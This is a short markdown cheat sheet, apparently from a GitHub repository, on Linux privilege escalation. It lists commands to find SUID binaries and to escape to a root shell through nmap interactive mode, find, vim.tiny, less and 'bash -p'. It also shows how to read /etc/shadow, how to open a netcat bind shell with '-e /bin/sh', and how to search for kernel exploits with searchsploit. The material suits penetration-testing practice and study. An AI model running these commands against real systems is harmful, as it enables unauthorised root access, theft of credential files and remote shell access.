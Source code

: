 
# Privilege Escalation

### ry the obvious - Maybe the user can sudo to root:

`sudo su`

### List all SUID files 

`find / -perm -4000 2>/dev/null`

`find / -user root -perm -4000 -print 2>/dev/null`

`find / -perm -u=s -type f 2>/dev/null`

`find / -user root -perm -4000 -exec ls -ldb {} \;`

Nmap version [2.02 - 5.21]:

`nmap -V`

`nmap --interactive`

`nmap> !sh`


### Performing privilege escalation by misconfigured SUID

#### Find

`touch kitsun3sec` && `find kitsun3sec -exec whoami \;`

If root:

`find kitsun3sec -exec netcat -lvp 5555 -e /bin/sh \;`

#### vim.tiny 

` vim.tiny /etc/shadow `

```shell
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```

#### Bash

`bash -p`

`whoami`

#### Less

```shell
less /etc/passwd
!/bin/sh
```

### Listing process

`ps aux`

`ps xaf`

### Determine the current version of Linux 

`cat /etc/issue`

`lsb_release -a`

### Determine more information about the environment

`uname -a`

## Searchsploit

`searchsploit linux 2.6`

`searchsploit centos 6`